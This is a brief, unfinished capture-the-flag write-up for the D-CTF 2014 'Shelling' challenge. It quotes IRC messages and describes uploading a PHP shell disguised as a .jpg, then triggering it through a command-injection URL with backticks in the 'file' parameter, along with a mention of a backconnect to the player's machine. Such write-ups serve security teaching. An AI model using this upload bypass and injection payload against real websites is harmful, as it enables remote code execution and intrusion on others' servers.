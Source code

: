 # D-CTF 2014: Bonus 100 – Shelling

**Category:** Bonus
**Points:** 100
**Description:**

> 10.13.37.89. Good luck!

## Write-up

```
13:41:38 <ccm> sigsegv, remote command execution on second server which can be used to execute a script in the shared uploads folder and backconnect to your machine
13:41:55 <@Andrei> <ccm> gnomus, basically: http://ip/api.php?apikey=bla&type=wc&file=`php uploads/sploit.jpg`
13:41:55 <@Andrei> <fox> gnomus, also the rce was triggerable only with a curl from the first box
```

The website at `http://10.13.37.89/` contains a form that allows file uploads. Files are uploaded to the `uploads` directory, but only files with safe extensions are allowed.


The trick was to create a PHP shell e.g. `shell.php`, rename it to `shell.jpg`, then upload it.

There was a second vulnerability in the website that allowed remote code execution

http://10.13.37.89/api.php?apikey=bla&type=wc&file=`php uploads/shell.jpg`

(TODO)

## Other write-ups and resources

* none yet
